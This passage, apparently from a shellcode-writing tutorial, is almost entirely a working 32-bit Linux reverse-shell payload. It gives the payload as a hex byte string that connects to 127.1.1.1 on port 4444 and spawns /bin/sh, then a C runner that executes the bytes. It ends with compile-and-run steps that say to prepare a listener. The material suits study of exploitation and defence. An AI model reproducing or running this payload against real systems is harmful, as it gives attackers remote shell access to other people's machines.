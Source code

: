 So, our shellcode is:            
```cpp
"\x6a\x66\x58\x6a\x01\x5b\x31\xd2\x52\x53\x6a\x02\x89\xe1\xcd\x80\x92\xb0\x66\x68\x7f\x01\x01\x01\x66\x68\x11\x5c\x43\x66\x53\x89\xe1\x6a\x10\x51\x52\x89\xe1\x43\xcd\x80\x6a\x02\x59\x87\xda\xb0\x3f\xcd\x80\x49\x79\xf9\xb0\x0b\x41\x89\xca\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80"
```

Then, replace the code at the top (`run.c`) with:
```cpp
/*
run.c - a small skeleton program to run shellcode
*/
// bytecode here
char code[] = "\x6a\x66\x58\x6a\x01\x5b\x31\xd2\x52\x53\x6a\x02\x89\xe1\xcd\x80\x92\xb0\x66\x68\x7f\x01\x01\x01\x66\x68\x11\x5c\x43\x66\x53\x89\xe1\x6a\x10\x51\x52\x89\xe1\x43\xcd\x80\x6a\x02\x59\x87\xda\xb0\x3f\xcd\x80\x49\x79\xf9\xb0\x0b\x41\x89\xca\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80";

int main(int argc, char **argv) {
  int (*func)();             // function pointer
  func = (int (*)()) code;   // func points to our shellcode
  (int)(*func)();            // execute a function code[]
  // if our program returned 0 instead of 1,
  // so our shellcode worked
  return 1;
}
```

Compile, prepare listener and run:          
```bash
gcc -z execstack -m32 -o run run.c
./run
```

![run C code](/assets/images/14/2021-10-16_14-03.png){:class="img-responsive"}       
